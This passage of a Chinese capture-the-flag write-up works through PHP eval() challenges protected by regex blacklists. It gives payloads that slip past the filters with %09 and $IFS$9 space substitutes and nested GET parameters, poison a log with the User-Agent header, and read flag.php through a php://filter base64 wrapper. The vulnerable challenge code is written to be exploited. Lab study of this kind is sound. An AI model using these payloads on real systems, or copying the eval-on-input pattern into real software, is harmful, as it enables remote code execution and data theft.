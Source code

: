 其中%09绕过空格 ，这里需要注意括号的闭合，&的连接

```
?c=eval($_GET[1]);&1=passthru("tac%09fla*");
```

 其中$IFS$9绕过空格，注意转义$符号

```
?c=eval($_GET[1]);&1=passthru("tac\$IFS\$9fla*");
```

## web32

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以include，也即是包含文件，发现可以**包含日志**，于是就 UA 头写 shell 来 RCE

```
?c=include$_GET[a]?>&a=../../../../var/log/nginx/access.log
```

嵌套传参，文件包含配上伪协议。%0a为换行，这里不要也行

```
?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

## web33

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
